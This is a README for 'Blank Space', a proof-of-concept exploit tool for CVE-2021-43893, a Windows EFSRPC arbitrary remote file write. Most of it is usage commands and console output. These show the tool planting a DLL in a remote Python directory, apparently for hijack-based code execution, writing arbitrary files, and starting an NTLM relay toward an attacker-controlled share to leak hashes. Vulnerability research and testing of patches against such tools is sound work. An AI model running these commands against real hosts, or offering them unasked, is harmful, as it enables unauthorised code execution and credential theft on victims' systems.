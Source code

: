 # Blank Space

Blank Space is a refactoring of James Forshaw's [original proof of concept](https://www.youtube.com/watch?v=e-ORhEE9VVg) for [CVE-2021-43893](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43893), [EFSRPC arbitrary file upload privilege escalation](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43893). Blank Space can create arbitrary files on a remote host that is using unconstrained delegation if it isn't patched for CVE-2021-43893. File creation is done using the privileges of the remote user, so code execution is a bit speculative but defintely a possibility. Blank Space can also be used to begin a relay attack even after CVE-2021-43893 has been patched. Similarly, admin users can overwrite existing files, although that arguably doesn't cross a security boundary.

Examples of both code execution, relay attacks, and file destruction are available in a Rapid7 blog I wrote. The PoC assuming the executing user can authenticate to the remote host.


## Usage

### Options

Blank Space always requires a remote host (`--rhost`) and a remote filename (`--filename`). CVE-2021-43893 is sort of specific to `\\.\C:\` filepaths, but I've left it up to the user how they define a path (e.g. `\\localhost\sharename` or `\\remotehost\share` are valid options depending on what you are doing).


```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
option "rhost" is required
Available options:
  -h, --help              Produces a help message
  -r, --rhost arg         The remote host to target
  -f, --filename arg      The name of the file to create/write to
  -s, --input-string arg  A string of data to write
  -i, --input-file arg    A string of data to write
  --relay                 Initiate NTLM hash leak
  --directory             Create a directory
```

### Creating a remote file using a file

```
C:\ProgramData>.\blankspace.exe -r vulnerable.okhuman.ninja -f \\.\C:\Python27\fveapi.dll -i ./dll_inject64.dll
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to vulnerable.okhuman.ninja
[+] Attempting to write to \\.\C:\Python27\fveapi.dll
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 92160 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\ProgramData>
```

### Creating a remote file using a string

```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe -r 10.0.0.6 -f \\.\C:\ProgramData\hello -s "hello world!"
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to 10.0.0.6
[+] Attempting to write to \\.\C:\ProgramData\hello
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 12 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\Users\lowlevel\blankspace\Release>
```


### Triggering a relay

```
C:\ProgramData>blankspace.exe -r yeet.okhuman.ninja -f \\10.0.0.3\r7\r7 --relay
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to yeet.okhuman.ninja
[+] Sending EfsRpcDecryptFileSrv for \\10.0.0.3\r7\r7
[-] EfsRpcDecryptFileSrv failed with status code: 53
[+] Network path not found error received!
[!] Success!
C:\ProgramData>
```


## Credit

* James Forshaw - [Original issue discovery and proof of concept](https://bugs.chromium.org/p/project-zero/issues/detail?id=2228)
* [Taylor Swift](https://www.youtube.com/watch?v=e-ORhEE9VVg)
